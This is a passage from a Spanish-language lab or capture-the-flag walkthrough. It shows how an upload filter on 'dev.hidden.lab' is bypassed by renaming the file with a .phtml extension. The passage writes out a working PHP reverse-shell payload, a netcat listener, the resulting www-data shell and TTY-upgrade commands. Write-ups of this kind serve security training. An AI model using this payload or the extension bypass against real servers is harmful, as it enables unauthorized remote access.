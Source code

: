 Vemos que se alojan en `/uploads` por lo que ahora intentaremos subir un archivo `.php` con una reverse shell, solo que nos dice que no se admiten ese tipo de formatos, por lo que haremos el siguiente tipo de extension para que funcione.

```shell
nano shell.phtml

#Dentro del nano
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Lo guardamos y ahora se subira como otro tipo de extension para que no lo bloque solo que seguira haciendo caso a la extension de `php` para que funcione.

Una vez que lo hayamos subido con la extension de `.phtml` iremos a la siguiente URL.

```
URL = http://dev.hidden.lab/uploads/
```

Y aqui encontraremos nuestro archivo, por lo que antes de darle estaremos a la escucha.

```shell
nc -lvnp <PORT>
```

Y hecho eso, le daremos al archivo, si volvemos a donde teniamos la escucha obtendremos una shell de `www-data`.

Info:

```
connect to [192.168.5.145] from (UNKNOWN) [172.17.0.2] 53256
whoami
www-data
```

Sanitizamos la shell (TTY).

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
